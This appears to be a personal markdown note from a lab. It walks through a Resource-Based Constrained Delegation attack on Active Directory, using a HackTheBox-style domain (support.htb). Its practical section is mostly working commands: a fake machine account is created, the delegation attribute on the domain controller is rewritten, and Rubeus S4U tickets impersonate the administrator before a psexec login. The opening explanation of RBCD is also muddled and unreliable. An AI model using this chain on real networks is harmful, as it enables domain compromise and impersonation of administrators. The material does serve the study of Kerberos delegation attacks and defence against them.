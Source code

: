 
## Resource-Based Constraint Delegation

Resource-Based Constraint Delegation is a feature in Active Directory that allows administrators to specify which users or groups are allowed to delegate their permissions to other users or groups. This can be useful in situations where a user needs to perform a task that requires permissions that they do not have, but a user with the necessary permissions trusts them to perform the task on their behalf. For example, an administrator may allow a group of IT technicians to delegate their permissions to reset user passwords, as long as the request is made by a member of the HR department.

## Configuring RBCD

**RBCD** is configured by setting the `**msDS-AllowedToActOnBehalfOfOtherIdentity**` attribute. This attribute specifies which service accounts or systems are permitted to act on behalf of users to access the target resource.

To exploit this type of delegation, an attacker must gain access to an account with Write permissions on the targeted resource (computer object), such as `GenericAll`, `GenericWrite`, and `WriteDACL`. This access is necessary to modify the Resource-Based Constrained Delegation (RBCD) settings on the targeted resource.

## RBCD Attack Requirements and Flow

## Attack Requirements

- Obtain access to an account with Write permissions to modify a computer object’s `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute, granting permissions to the compromised account.
- Control an object with a Service Principal Name (SPN). This could involve using an existing computer where we hold administrator privileges or creating a fake computer object if necessary.

## Attack Steps

The steps below summarize the RBCD attack to understand the attack flow:

1. The attacker gains access to a domain user account that can add computers to the domain. By default, domain users are part of the Authenticated Users group, allowing them to add up to 10 computers to the domain.

**_Note:_** _Remember, it is not always the case; sometimes administrators will set the_ `_ms-ds-machineaccountquota_` _attribute to 0 to prevent these attacks.)_

2. The compromised user must have Write privileges over the targeted computer. Required permissions include `GenericAll`, `GenericWrite`, or `WriteDACL`.

3. The attacker modifies the target computer’s `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute to specify a service account they control.

4. The attacker requests a service ticket to impersonate a high-privileged user, such as a domain admin, to access the target computer.

5. Using the issued ticket, the attacker gains access to the target computer.
## Tools Required

#### 1. [PowerMad](https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1)
#### 2. [PowerView](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1)
#### 3. [Powershell AD module](https://github.com/samratashok/ADModule.git)
#### 4. [Impacket Tools](https://github.com/fortra/impacket)
#### 5. [Rubeus](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)

#### S4UProxy

S4UProxy is a feature in Active Directory that allows a user to obtain a service ticket for a different user without knowing their password. This feature is typically used in situations where a service account needs to access a resource on behalf of a user, but the service account is not trusted to know the user's password. S4USelf works in a very similar way, allowing a user to obtain a ticket for itself. In a S4UProxy attack, an attacker exploits this feature to obtain a service ticket for a high-privileged account, such as an administrator account, without knowing the password for the account. The attacker can then use the service ticket to access resources and perform actions that are normally restricted to the high-privileged account.

## Practical Exploitation

##### Upload the FIles to the server using Evil-WinRM
```Powershell
upload /path-to-the-file/{Files}.ps1
```

##### Import all the Modules
```Powershell
. .\Powermad.ps1
. .\PowerView.ps1
Import-Module .\Microsoft.ActiveDirectory.Management.dll
. .\ActiveDirectory.psd1
```

Next, we check the value of the `ms-ds-machineaccountquota` attribute with the Active Directory `Get-ADDomain` command to see if our domain user can add machines to the domain.

##### Get the machine quota
```Powershell
Get-ADDomain | Select-Object -ExpandProperty DistinguishedName | Get-ADObject -Properties 'ms-DS-MachineAccountQuota'
```

![[RBCD-1.webp]]
Also, we check the `msds-allowedtoactonbehalfofotheridentity` attribute with the PowerView`Get-DomainComputer` command to see how many services are listed on the computer.
```cmd
Get-DomainComputer DC | select name, msds-allowedtoactonbehalfofotheridentity
```
![[RBCD-2.webp]]

### Chaining it together

First, we leverage [[#1. [PowerMad](https //github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1) |PowerMad]] to create a new machine account using our `GenericAll` privileges on the domain.

```Powershell
New-MachineAccount -MachineAccount PC1 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
verify that it is added correctly to the domain by running the `Get-DomainComputer` command.
```Powershell
Get-DomainComputer PC1
```

### Here there are 2 ways to proceed
#### 1. In first, we set the security descriptor for our`PC1` principal and add it to the `msds-allowedtoactonbehalfofotheridentity` attribute value of the DC computer object.
```Powershell
#Change the SID in this command with the SID from your created fake machine  
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-2552734371-813931464-1050690807-1154)"  
  
$SDBytes = New-Object byte[] ($SD.BinaryLength)  
  
$SD.GetBinaryForm($SDBytes, 0)  
  
#Replace the DC machien with any target machhine  
Get-DomainComputer DC | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```
#### 2. In this we set the `PrincipalsAllowedToDelegateToAccount` to allow for `SERVICEA` to impersonate any user against our target `DC`

```
Set-ADComputer DC -PrincipalsAllowedToDelegateToAccount SERVICEA$
Get-ADComputer DC -Properties PrincipalsAllowedToDelegateToAccount
```

Next, we use `Rubeus` to get a hash of our password. In a second step, we perform a the actual `S4U` attack, which can be done with Rubeus as well. Please note that this step abuses intended functionality, and requires the above mentioned misconfigurations to be present. In this case we have `GenericAll` or any other write privileges on the target machine, which allowed us to misconfigure the rest ourselves.

```
.\Rubeus.exe hash /password:123456 /user:SERVICEA$ /domain:support.htb

.\rubeus.exe s4u /user:SERVICEA$ /aes256:<aes256 hash> /aes128:<aes128 hash> /rc4:<rc4 hash> /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /domain:support.htb  /ptt
```

This is the basic attack, but more work is needed to login, as the ticket is injected into memory by `Rubeus` and usually intended to use immediately within a multi-machine environment. Grab the ticket and format it, then convert it to a usable ticket for impacket.

```
echo <ticket> | base64 -d > ticket.kirbi
ticketConverter.py ticket.kirbi ticket.ccache
export KRB5CCNAME=ticket.ccache
```

Now we can use impacket psexec to login:

```
psexec.py -k -no-pass support.htb/Administrator@dc.support.htb -dc-ip 10.10.11.174 -target-ip 10.10.11.174
